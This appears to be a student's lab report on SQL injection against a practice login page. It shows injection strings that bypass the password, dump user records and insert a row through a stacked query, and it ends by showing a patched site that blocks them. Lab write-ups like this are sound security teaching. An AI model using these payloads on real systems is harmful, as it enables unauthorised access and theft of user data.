





## Project 4 Report

### Task 1
- **Goal**: Impersonate an exitsting user without providing the password.
- Command use: `Cat'#` 
  - This command exploits the vulnerability of the SQL injection in the login page.
- The picture below show that the command `Cat'#` has been executed successfully.



### Task 2
- Steal the user information from the database.
- Command use: `Cat' OR '1==1'#`
- The picture below show that the command `Cat' OR '1==1'#` has been executed successfully.


### Task 3
- Insert a new record into the table. The following picture have the code I use to insert a new record into the table. I pretend to be user **David** to insert a new record into user **cat**'s table.
- Command use:

```sql
David'; INSERT INTO users(first, uname, passwd, profile) VALUES('cat', 'cat', PASSWORD('cat'),
 'Injection success')#
```
- The picture below show that the new record has been inserted successfully.



- The picture below show the table after the new record has been inserted.



### Task 4
- None of the attack shown above will work in the new website. Since the new website has been modified to prevent SQL injection attack. The following picture show that the command `Jacob'#` will not work in the new website.

